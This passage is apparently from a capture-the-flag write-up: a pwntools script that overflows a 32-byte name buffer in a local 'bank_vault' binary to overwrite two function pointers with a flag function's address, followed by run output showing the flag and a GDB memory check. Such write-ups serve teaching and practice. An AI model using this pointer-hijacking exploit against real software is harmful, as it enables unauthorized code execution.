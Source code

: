 ```python

    # Craft the payload
    payload = b'A' * 32                    # Name buffer (32 bytes)
    payload += b'B' * 8                    # Balance field (8 bytes) - corrupted but irrelevant
    payload += p64(0x401267)               # Overwrite display_func with flag function
    payload += p64(0x401267)               # Overwrite withdraw_func (backup)

    assert len(payload) == 56, f"Payload must be exactly 56 bytes, got {len(payload)}"

    # Send payload (no newline to ensure exactly 56 bytes)
    p.send(payload)

    # Step 2: Trigger the hijacked function pointer
    p.recvuntil(b'Choice: ')
    p.sendline(b'3')  # View Account

    p.recvuntil(b'Enter account ID to view: ')
    p.sendline(b'0')  # Our account has ID 0

    # Step 3: Capture the flag
    response = p.recvall(timeout=3)
    print(response.decode())

    p.close()

if __name__ == "__main__":
    exploit()
```

### Execution
```bash
$ python3 exploit.py
[+] Starting local process './bank_vault': pid 13517
[*] Process './bank_vault' stopped with exit code 0 (pid 13517)
Access granted to secure vault system.
Retrieving classified data...
Data retrieved: flag{auf}
```

## Debugging and Verification

### GDB Analysis
```bash
$ gdb -q bank_vault
(gdb) break *0x40134b    # Break after read() call in create_account
(gdb) run
# Input the 56-byte payload
(gdb) x/7gx $rbx         # Examine the account structure
```

**Expected memory layout after overflow:**
```
0x7ffe12340000: 0x4141414141414141   # name[0-7] = "AAAAAAAA"
0x7ffe12340008: 0x4141414141414141   # name[8-15] = "AAAAAAAA"
0x7ffe12340010: 0x4141414141414141   # name[16-23] = "AAAAAAAA"
0x7ffe12340018: 0x4141414141414141   # name[24-31] = "AAAAAAAA"
0x7ffe12340020: 0x4242424242424242   # balance = 0x4242424242424242 (corrupted)
0x7ffe12340028: 0x0000000000401267   # display_func = flag_function ← SUCCESS!
0x7ffe12340030: 0x0000000000401267   # withdraw_func = flag_function ← SUCCESS!
```

